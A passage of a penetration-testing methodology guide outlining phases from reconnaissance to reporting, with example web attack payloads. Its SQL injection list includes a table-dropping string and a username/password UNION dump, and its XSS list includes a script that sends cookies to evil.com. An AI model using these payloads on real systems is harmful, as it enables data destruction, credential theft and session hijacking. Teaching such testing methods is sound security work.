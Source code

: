 **Deliverable**: Engagement Plan & Rules of Engagement Document

### Phase 2: Reconnaissance & Information Gathering
1. **Passive Intelligence**: OSINT and open-source information gathering
2. **Network Mapping**: Identify infrastructure and attack surface
3. **Asset Discovery**: Catalog systems, applications, and services
4. **Technology Profiling**: Identify software versions and configurations
5. **Social Engineering Prep**: Target research and campaign design

**Deliverable**: Reconnaissance Report & Attack Surface Analysis

### Phase 3: Vulnerability Assessment
1. **Automated Scanning**: Vulnerability scanners and security assessment tools
2. **Manual Testing**: Manual security testing and validation
3. **Configuration Review**: Security configuration assessment
4. **Threat Modeling**: Identify potential attack paths
5. **Risk Scoring**: CVSS scoring and business impact assessment

**Deliverable**: Vulnerability Assessment Report

### Phase 4: Exploitation & Post-Exploitation
1. **Exploitation Attempts**: Attempt to exploit identified vulnerabilities
2. **Privilege Escalation**: Attempt to gain elevated access
3. **Lateral Movement**: Move through network if scope permits
4. **Data Access Simulation**: Identify sensitive data accessibility
5. **Persistence Testing**: Test ability to maintain access

**Deliverable**: Exploitation Test Results

### Phase 5: Reporting & Remediation
1. **Executive Summary**: High-level findings and business impact
2. **Technical Report**: Detailed vulnerabilities and exploitation steps
3. **Remediation Plan**: Prioritized recommendations for fixes
4. **Risk Assessment**: Overall security posture evaluation
5. **Compliance Review**: Assessment against security standards

**Deliverable**: Comprehensive Penetration Test Report

## Common Attack Vectors & Testing Scenarios

### Web Application Testing Scenarios

#### 1. SQL Injection Testing
```sql
-- Example payloads for testing SQL injection
' OR 1=1 --
' UNION SELECT username,password FROM users --
' AND SLEEP(5) --
'; DROP TABLE users; --
```

#### 2. Cross-Site Scripting (XSS) Testing
```javascript
// Example XSS payloads for testing
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>
```
